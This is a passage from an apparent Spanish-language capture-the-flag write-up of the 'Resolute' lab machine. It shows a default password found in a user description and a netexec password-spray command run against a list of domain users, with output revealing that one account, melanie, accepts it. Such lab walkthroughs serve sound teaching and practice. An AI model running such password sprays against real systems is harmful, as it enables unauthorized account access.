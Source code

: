 
Vemos una descripción para el usuario `marko` y nos indica que la credencial inicial de esta cuenta es `Welcome123!`

Podemos comprobarlo con `netexec`
```console
 nxc smb 10.129.201.75 -u marko -p 'Welcome123!'
SMB         10.129.201.75   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE
```

Nos indica que la credencial no es válida.

Podemos probar esta credencial con todas las cuentas de usuario.

```console
$ nxc smb 10.129.201.75 -u users.txt -p 'Welcome123!' --continue-on-success                   21:47:23 [1/9225]
SMB         10.129.201.75   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\zach:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\simon:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\naoki:Welcome123! STATUS_LOGON_FAILURE 
```
